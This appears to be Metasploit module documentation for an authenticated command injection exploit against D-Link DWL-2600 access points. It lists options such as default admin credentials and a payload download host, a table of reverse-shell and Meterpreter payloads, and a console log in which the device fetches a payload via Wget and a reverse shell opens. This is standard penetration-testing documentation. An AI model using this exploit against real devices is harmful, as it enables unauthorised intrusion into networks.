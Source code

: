 # DLINK DWL-2600 Authenticated Command Injection

## Overview
DLINK DWL-2600 WiFi Access Points contain an authenticated command injection vulnerability.  This vulnerability was originally discovered by RAKI BEN HAMOUDA and posted to exploit db here: [https://www.exploit-db.com/exploits/46841](https://www.exploit-db.com/exploits/46841). Original testing was performed against firmware version `4.2.0.15` though other versions are likely affected.

## Options
### HttpUsername
Defaults to admin, this is the username that is used to authenticate to the device
### HttpPassword
Defaults to admin, this is the password that is used to authenticate to the device
### DOWNHOST
Alternative host to request MIPS payload from.
### DOWNFILE
File name to download - defaults to a random value.
### HTTP_DELAY
Time that the HTTP Server will wait for the ELF payload request.

In addition you will probably want to set `LHOST` and `SRVHOST`.

## Payloads
```
msf5 exploit(linux/http/dlink_dwl_2600_command_injection) > show payloads

Compatible Payloads
===================

   #   Name                                    Disclosure Date  Rank    Check  Description
   -   ----                                    ---------------  ----    -----  -----------
   0   generic/custom                                           normal  No     Custom Payload
   1   generic/shell_bind_tcp                                   normal  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                normal  No     Generic Command Shell, Reverse TCP Inline
   3   linux/mipsle/exec                                        normal  No     Linux Execute Command
   4   linux/mipsle/meterpreter/reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Stager
   5   linux/mipsle/meterpreter_reverse_http                    normal  No     Linux Meterpreter, Reverse HTTP Inline
   6   linux/mipsle/meterpreter_reverse_https                   normal  No     Linux Meterpreter, Reverse HTTPS Inline
   7   linux/mipsle/meterpreter_reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Inline
   8   linux/mipsle/reboot                                      normal  No     Linux Reboot
   9   linux/mipsle/shell/reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
   10  linux/mipsle/shell_bind_tcp                              normal  No     Linux Command Shell, Bind TCP Inline
   11  linux/mipsle/shell_reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Inline

```

## Scenarios
```
msf5 exploit(linux/http/dlink_dwl_2600_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.101:4444 
[*] 192.168.0.100:80 - Trying to login with admin / admin
[+] 192.168.0.100:80 - Successful login admin/admin
[+] 192.168.0.100:80 - Received Auth token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Using URL: http://0.0.0.0:8080/mnHnGuZ0euTGyf5
[*] Local IP: http://192.168.0.101:8080/mnHnGuZ0euTGyf5
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Client 192.168.0.100 (Wget) requested /mnHnGuZ0euTGyf5
[*] Sending payload to 192.168.0.100 (Wget)
[*] Command Stager progress -  54.24% done (64/118 bytes)
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Command Stager progress -  72.88% done (86/118 bytes)
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Command shell session 3 opened (192.168.0.101:4444 -> 192.168.0.100:33318) at 2020-03-26 20:10:26 -0500
[*] Server stopped.
```
